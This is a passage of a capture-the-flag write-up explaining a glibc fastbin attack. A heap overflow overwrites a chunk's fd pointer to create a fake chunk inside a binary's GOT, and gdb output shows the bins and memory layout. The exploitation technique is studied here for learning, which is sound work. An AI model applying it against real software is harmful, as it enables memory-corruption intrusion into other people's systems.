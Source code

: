 By using the amazing [angelheap](https://github.com/scwuaptx/Pwngdb/tree/master/angelheap) from [Pwngdb](https://github.com/scwuaptx/Pwngdb), we could see that there's a chunk in `fastbin[4]`(size = 0x60), and a chunk in `fastbin[2]`(size = 0x40).  

Then, we allocate the chunk in `fastbin[4]`, and copy our data into the chunk. Since there's a heap overflow vulnerability, we can actually overwrite the data in chunk @ `fastbin[2]` -- by setting the `offet` variable to `0x60` ( `0xc26c20` + `0x60` = `0xc26c80` ). We overwrite the `fd` pointer in chunk @ `fastbin[2]`, making it point to the GOT area. This is because in an x64 non-PIE binary, its GOT entries will contain some address which start with `0x40` (if the function hasn't been resolved yet):
```
gdb-peda$ tel 0x604018
00:0000|  0x604018 --> 0x7fbdea10c800 (<__printf>:      sub    rsp,0xd8)
-------------------------------------------------------------------------
01:0008|  0x604020 --> 0x400ab6 (<__gmon_start__@plt+6>:        push   0x1)
-------------------------------------------------------------------------
02:0016|  0x604028 --> 0x7fbdea126690 (<_IO_puts>:      push   r12)
03:0024|  0x604030 --> 0x7fbdea723f10 (<operator new[](unsigned long)>: sub    rsp,0x8)
04:0032|  0x604038 --> 0x7fbdea721f10 (<operator delete(void*)>:        jmp    0x7fbdea71ddb0 <free@plt>)
05:0040|  0x604040 --> 0x7fbdea126e70 (<__GI__IO_setvbuf>:      push   rbp)
-------------------------------------------------------------------------
06:0048|  0x604048 --> 0x400b06 (<fopen@plt+6>: push   0x6)
-------------------------------------------------------------------------
07:0056|  0x604050 --> 0x7fbdea0d7740 (<__libc_start_main>:     push   r14)
```
If we off-set the memory layout in the GOT area, we could found that it actually has some good `fastbin[2]`(again, size = 0x40) chunks:
```
0x604042 <setvbuf@got.plt+2>:   0x0b0600007fbdea12      0x7740000000000040  <-- here
0x604052 <__libc_start_main@got.plt+2>: 0x4ad000007fbdea0d      0x1b7000007fbdea12
0x604062 <strlen@got.plt+2>:    0xdea000007fbdea14      0xc3c000007fbdea0e
0x604072 <signal@got.plt+2>:    0x0b6600007fbdea0e      0x2650000000000040 <-- here
0x604082 <alarm@got.plt+2>:     0x0b8600007fbdea18      0x0b96000000000040 <-- here
0x604092 <dlsym@got.plt+2>:     0x0ba6000000000040      0x0bb6000000000040 <-- and here !
```
While allocating a fastbin chunk, **malloc.c will only check if its size is valid**. For example, a chunk in `fastbin[2]` must have a size of `0x4X` ( yep, even a size of `0x4f` will still pass the check). So, after we overwrite the `fd` pointer in the chunk @ `fastbin[2]`:
```
gdb-peda$ hip
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x1da3cc0 --> 0x0
(0x40)     fastbin[2]: 0x1da3c80 --> 0x604042 (size error (0xc740000000000040)) --> 0x9ad000007f5e059a (invaild memory)
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x1da3c20 --> 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
                  top: 0x1da3f80 (size : 0x1c080) 
       last_remainder: 0x1da3e00 (size : 0x50) 
            unsortbin: 0x0
gdb-peda$
```
We could see that `fastbin[2]` will have a fake chunk @ `0x604042` ( no need to worry about the size, **malloc.c** will only check the size with type `unsigned int` , just focus on the first 4 bytes ).  

